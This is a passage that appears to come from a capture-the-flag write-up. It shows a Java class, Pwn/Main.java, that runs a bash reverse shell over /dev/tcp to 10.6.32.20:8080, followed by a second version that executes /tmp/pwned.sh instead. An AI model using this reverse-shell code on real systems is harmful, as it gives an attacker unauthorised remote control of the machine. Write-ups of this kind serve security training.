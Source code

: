 

Now, let's add a reverse shell payload to `Pwn/Main.java`

```java
package Pwn;

public class Main
{
    public static void main(String[] args)
    {
        System.out.println("Starting revshell");
        try {
        	Runtime r = Runtime.getRuntime();
            Process p = r.exec("/bin/sh -c '/bin/bash -i >& /dev/tcp/10.6.32.20/8080 0>&1'");
            p.waitFor();    
        } catch (Exception e){
            
        }
        
    }
}
```

We can compile the `jar` on our machine and send it to the machine.

Wellll, this is not working apparently, our java version is higher than the one on the box, so let's just compile it over there.



Hmmm, the jar file is runned but somehow we don't get shell command execution...

Soo, we ended up calling a script from the java file :

```java
package Pwn;

public class Main
{
    public static void main(String[] args)
    {
        System.out.println("Starting revshell");
        try {
                Runtime r = Runtime.getRuntime();
            Process p = r.exec("/bin/sh /tmp/pwned.sh");
            p.waitFor();
            System.out.println("runned");
        } catch (Exception e){

            System.out.println("EXCEPTION");
        }

    }
}
```
